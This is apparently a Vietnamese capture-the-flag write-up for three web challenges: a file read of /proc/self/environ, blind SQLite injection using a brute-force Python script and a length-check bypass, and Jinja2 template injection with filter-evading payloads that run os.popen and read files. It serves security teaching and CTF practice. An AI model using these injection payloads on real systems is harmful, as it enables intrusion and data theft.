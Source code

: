 # ehc-daicuongtangai

### Idea: 

- LFI to /proc/self (linux)

### Solution:
Visit /robots.txt, thấy được file system của challenge.

Hướng exploit sẽ là biến `poem` vừa được eval() mà user lại có thể control được.

Qua BurpSuite: `localhost:9000/poem?baitho=request.data` / phần body của request điền tên của file cần request. 

Truy cập phlag.txt -> được hint là phlag ở mọi nơi
`/proc/self/environ` sẽ là file cần đọc -> get flag.

### Flag:
`EHCTF{em_c0_the_tan_g3i_EHC_ez_ily}`



# fptu-etilos-crew

### Idea: 

- Blind sqli on Portswigger

### Cách 1: Viết Script

```python
import requests
from urllib.parse import quote
import string

table_name = ""
url = "http://challenge.ctf.ehc-fptu.club:32163/search?name[0]=1"
random = (
    "[" + "]" + "{" + "}" + "(" + ")" + "," + "?" + "^"
    " " + string.digits + string.ascii_letters + "_"
)


# Lấy tên bảng

# for i in range(1, 50):
#     for j in random:
#         add_url = f"' and substr((SELECT group_concat(tbl_name) FROM sqlite_master ),{i},1) like '{j}' -- ;"
#         # add_url = f"' and substr((SELECT name FROM sqlite_master WHERE type='table'),{i},1) like '{j}' -- ;"
#         full = url + add_url
#         # print(full)
#         # print(j)
#         Url = url + quote(add_url)
#         # print(Url)
#         re = requests.get(url=Url)
#         # print(re.text)
#         if '[{"id":1,"joke":' in re.text:
#             table_name += j
#             print(f"Table_Name {i}====> :", table_name)
#             break
#         if i > 48:
#             print(table_name)
#             break

# Lấy flag 
flag = ""
for i in range(1, 50):
    for j in random:
        add_url = f"' and substr((select flag from flag_2330375a_1320_4800_85eb_27e2300b6561),{i},1) like '{j}' --;"
        full = url + add_url
        Url = url + quote(add_url)
        re = requests.get(url=Url)

        if '[{"id":1,"joke"' in re.text:
            flag += j
            print(f"Flag {i}====> :", flag, end="\r")
            break

```

### Cách 2: Giải kiểu cần cù :D

#### Giải thích hướng đi của bài

- Nhìn source app.js thấy dùng SQLite3 db. table name API và flag table có format `flag_` + an UUIDv4 string. Và điều quan trọng, có một trang ẩn khi bạn đọc đoạn code này: 

```js
app.get('/search', (req, res) => {
    const { name } = req.query;
    const Filterduidui = /(union|or|substring|substrs|if|case|=|when|then|join|load_extension|likely|unhex|\|\|)/i;
    if (!name) {
        return res.redirect('/search?name=1');
    }
```


- Check code từ dòng 13 tới 24 và dòng 60 tới 62 
```js
  if (name.length > 6) {
        return res.status(400).send({ err: 'U r hacker?' });
    }
```
chúng ta cần tìm cách bypass length này. Và khi nhập số vào param `/search?name=` ta sẽ nhận được 1 đoạn text bất kỳ trôn trôn :D. Chúng ta đều biết 
đây là một thử thách về SQLi theo tư duy ban đầu sẽ test thử payload `' and 1 is 1--` nhưng input này quá dài vi phạm điều kiện `name.length > 6`. Nhưng site được biết bằng JavaScript và không có kiểm tra input vào parameter là string hay không, thử biến parameter thành array :3

- payload detect lỗi: 
`search?name[]=' and 1 is 1--`
`search?name[]=%27%20and%201%20is%201--`

- Nếu bạn không biết tại sao nó hoạt động thì lý do là JavaScript xác định độ dài của một mảng là tổng số phần tử bên trong nó. Bây giờ ta có thể nhập payload có độ dài tùy ý.

- Từ đây có thể khẳng định bài này dúng Blind SQLi, nhưng keywords `substring` and `substrs` đã bị block. Search document của SQLite thì thấy nó sử dụng keyword
`substr` chứ không dùng `substring` hoặc `substrs`. 

- Tới dây rồi tìm database name length brute-forcing, vì flag table name được tạo ngẫu nhiên bởi function này:
```js
const flagTable = `flag_${uuid.v4().replace(/-/g, '_')}`;
```

- Viết một payload để xác định độ dài của tên bảng: `1' AND (SELECT LENGTH(name) FROM sqlite_master WHERE type is 'table' AND name LIKE 'flag_%') is 1--`
(dùng burp suite cho đỡ tốn time nếu đi theo cách try hard)

-> payload trên sẽ trả về 200 => Payload hoạt động => It's time to brute-force
- Dùng intruder, set the Grep-Match to the string "id":1 as the clue => xác định được độ dài của bảng là 41. Mà theo format trong source đã đó tên 5 chữ cái đầu tiên
trong table flag là `flag_` vậy là có 5 ký tự => Cần tìm 36 kí tự còn lại.

 <!-- Select tablename -->

- 1' and substr((SELECT group_concat(tbl_name) FROM sqlite_master),1,1) like '[' -- ;

- 1%27%20and%20substr((select%20sql%20from%20sqlite_schema),1,1)%20like%20%27C%27%20--%20;


=> with table_name = 'flag_2330375a_1320_4800_85eb_27e2300b6561'

 <!-- Select flag -->

- 1' and substr((select flag from flag_2330375a_1320_4800_85eb_27e2300b6561),1,1) like 'E' --;

- 1%27%20and%20substr((select%20flag%20from%flag_2330375a_1320_4800_85eb_27e2300b6561),1,3)=%22EH{%22%20--;

### Flag: 
`EHCTF{I_th1nk_u_r_so_lite_UwU}`


# ehc-waifu

### Hint: 

- SSTI Jinja2 with [Magic_or_Dunder_Method](https://www.tutorialsteacher.com/python/magic-methods-in-python#:~:text=Magic%20methods%20in%20Python%20are,class%20on%20a%20certain%20action)

## Analysis:

- Description: Chỉ khi bạn giải quyết secret `aUcoNnzcerplVJOgso6hf0KOP9w0aQeNlKEXeNSxcx3MkTfLpVXJRcZh1l6wl1zkjSdAYy5p/X/dhEKaH1ClYfHPCiOuIBunTT1sv+VdAlM=` thì bạn mới có thể tìm được waifu của mình. Waifu của tôi là marin kitagawa, tôi với cô ấy đã bên nhau 256 ngày, thật là một khoảng thời gian thật tuyệt vời. Hãy cẩn thận với những special character như _, nó có thể khiến phải đánh mất tình yêu của đời mình.

Hướng giải: Dùng cipher identifier dễ dàng biết đây là HMAC, đọc kỹ thì sẽ thấy các keyword `256`, `marin kitagawa` => cipher là HMAC-SHA256, secret key `marin kitagawa`.

- giải được secert là `request|config|self|class|flag|0|1|2|3|4|5|6|7|8|9|\"|\'|\\|\~|\%|\#` => SSTI Jinja2 (confirm rằng biết bài filter những gì)

## Exploit:

Chúng ta sẽ dùng những thứ có sẵn trong python(`Python Magic Methods`), Ex: 

 - `().__doc__` trả về doc của tuple "Built-in immutable sequence.\n\nIf no argument is given, the constructor returns an empty tuple.\nIf iterable is specified the   tuple is initialized from iterable's items.\n\nIf the argument is a tuple, the return value is the same object."
- `().__gt__.__name__` trả về "__gt__"
- `[].__len__()` trả về số phần tử của mảng rỗng là 0
- `[[]].__len__()` trả về 1

- Vừa mò và thử inject payload kết hợp các syntax trên cùng với [os.popen().read()]((https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#exploit-the-ssti-by-calling-ospopenread) `{{cycler.__init__.__globals__.os.popen(().__doc__[[[],[],[]].__len__()]+().__str__.__name__[[[],[]].__len__()]).read()}}` thì bất ngờ tìm được một file có tên flag. 


Tương tự đoạn code trên, mình viết 1 đoạn đoạn code trả về chữ `flag`

```cs
[].__doc__[-[].clear.__name__.__len__()]+\
[].__doc__[[].pop.__name__.__len__()]+\
().__doc__[-[].__getitem__.__name__.__len__()]+\
{}.__new__.__doc__[-[].__init__.__name__.__len__()]
```
- Cuối cùng mình dùng [read remote file] (https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#jinja2---read-remote-file) có inject với payload: `{{a.__init__.__globals__.__builtins__.open([].__doc__[-[].clear.__name__.__len__()]+[].__doc__[[].pop.__name__.__len__()]+().__doc__[-[].__getitem__.__name__.__len__()]+{}.__new__.__doc__[-[].__init__.__name__.__len__()]).read()}}`

### Flag: 
`EHCTF{lam_g1_co_b0ng_tuy3t_nao_tr3ng_ma1_d3u!}` 

